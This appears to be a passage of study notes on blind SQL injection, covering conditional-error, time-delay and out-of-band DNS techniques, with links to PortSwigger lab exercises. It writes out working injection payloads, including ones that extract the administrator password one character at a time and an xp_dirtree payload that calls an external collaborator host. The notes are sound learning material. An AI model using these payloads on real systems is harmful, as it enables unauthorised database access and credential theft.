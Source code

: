 * It is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.
* Example: two requests are sent containing the following `TrackingId` cookie values in turn:
  * &#x20;`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * &#x20;`xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* &#x20;These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.
* Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
  * `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
* [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

### **Blind SQL injection by time-delays**

* Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.
* The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:
  * &#x20;`'; IF (1=2) WAITFOR DELAY '0:0:10'--`\
    `'; IF (1=1) WAITFOR DELAY '0:0:10'--`
* &#x20;The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.
* &#x20;Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
  * `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
* [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
* [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)



### **Blind SQL Inejction with OAST techniques**

* OAST - Out-of-band Application Security Testing
* When will standard SQL injection not work?
  * Suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.
* It is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. More importantly, data can be exfiltrated directly within the network interaction itself.
* There are many options to perform this attack, but typically the most successful is DNS
* Burp Collaborator use
  * This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.
* &#x20;The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
  * `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
